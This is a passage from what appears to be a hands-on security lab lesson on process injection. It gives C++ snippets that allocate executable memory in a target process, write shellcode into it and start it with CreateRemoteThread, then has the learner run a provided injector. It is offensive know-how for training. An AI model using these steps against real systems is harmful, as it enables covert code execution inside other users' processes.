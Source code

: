 At step two, we must allocate memory to the byte size of the shellcode. Memory allocation is handled using `VirtualAllocEx`. Within the call, the `dwSize` parameter is defined using the `sizeof` function to get the bytes of shellcode to allocate.

```
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step three, we can now use the allocated memory region to write our shellcode. `WriteProcessMemory` is commonly used to write to memory regions.

```
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

At step four, we now have control of the process, and our malicious code is now written to memory. To execute the shellcode residing in memory, we can use `CreateRemoteThread`; threads control the execution of processes.

```
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

We can compile these steps together to create a basic process injector. Use the C++ injector provided and experiment with process injection.

Shellcode injection is the most basic form of process injection; in the next task, we will look at how we can modify and adapt these steps for process hollowing.

### Answer the questions below

* Identify a PID of a process running as THM-Attacker to target. Once identified supply the PID as an argument to execute shellcode-injector.exe located in the Injectors directory on the desktop. 

	```
	tasklist /v /FI "USERNAME eq THM-Attacker"
	```
